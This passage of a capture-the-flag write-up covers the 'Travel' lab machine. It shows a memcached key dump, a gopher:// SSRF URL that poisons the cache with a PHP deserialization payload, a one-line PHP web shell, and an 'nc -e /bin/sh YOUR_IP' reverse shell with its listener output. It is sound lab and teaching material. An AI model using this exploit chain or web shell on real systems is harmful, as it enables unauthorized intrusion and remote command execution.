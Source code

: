 To find out whether this worked or not, the `debug.php` mentioned in `rss_template.php` proofed to be useful. We find it browsing to `http://blog.travel.htb/wp-content/themes/twentytwenty/debug.php` - the path mentioned earlier in the README.md file - showing a table with truncated data after refreshing `http://blog.travel.htb/awesome-rss/`.
{: .text-justify}
```json
~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
| xct_4e5612ba07(...) | a:4:{s:5:"child";a:1:{s:0:"";a:1:{(...) | 
~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
```
If we use our custom feed url from above we get to see another entry:
```json
~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ 
| SpyD3r | O:5:"Hello":0:{} | 
| xct_4e5612ba07(...) | a:4:{s:5:"child";a:1:{s:0:"";a:1:{(...) | 
~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
```
So the the awesome-rss blog page is cached in the second row. Once it's in there it will revert to this entry when refreshing the awesome-rss blog page - but if we can write our payload in there in the meantime it will execute that instead. For this we need the key which is unfortunately truncated. This can be achieved either by reading the simplepie source code (turns out the key is generated by `xct_ + md5(md5(feed_url) + ":spc")`) or by deploying things locally. I went for the latter and after some tweaking I retrieved the key from memcached:
{: .text-justify}
```bash
telnet 127.0.0.1 11211
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
stats items
STAT items:16:number 1
[snip]
stats cachedump 16 100
ITEM xct_4e5612ba079c530a6b1f148c0b352241 [2737 b; 1595004892 s]
END
```
Now that we got the key we can verify that we are now able to overwrite an existing cache entry. By changing `SpyD3r` to `xct_4e5612ba079c530a6b1f148c0b352241`. 
Now, to get RCE, the class `TemplateHelper` from the `template.php` file might come in handy because of the `file_put_contents` function. By following this [post](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a) on how to exploit php deserialization and using [this tool](https://www.unserialize.com/) I came up with the following payload:
```json
# Basically, the latter 'O' means object, 's' string, and the digit following 
# tells how many characters the object/string consists of
O:14:"TemplateHelper":2:{s:4:"file";s:8:"this.php";s:4:"data";s:31:"<?php system($_GET['this']); ?>";}
```
This payload creates a file called `this.php` in the `logs` folder containing `<?php system($_GET['this']); ?>`. This way we can get a reverse shell in three steps, after URL encoding:
{: .text-justify}
```bash
# Overwriting the cache
http://blog.travel.htb/awesome-rss/?debug&custom_feed_url=gopher://0.0.0.0:11211/_%0d%0aset%20xct_4e5612ba079c530a6b1f148c0b352241%204%200%20102%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:4:%22file%22%3Bs:8:%22this.php%22%3Bs:4:%22data%22%3Bs:31:%22%3C%3Fphp%20system%28%24_GET%5B%27this%27%5D%29%3B%20%3F%3E%22%3B%7D%0d%0a
# Command execution via `nc -e` reverse shell
http://blog.travel.htb/wp-content/themes/twentytwenty/logs/this.php?this=nc%20-e%20/bin/sh%20YOUR_IP%201234
```
```bash
kali@kali:~$ nc -lnvp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.189.
```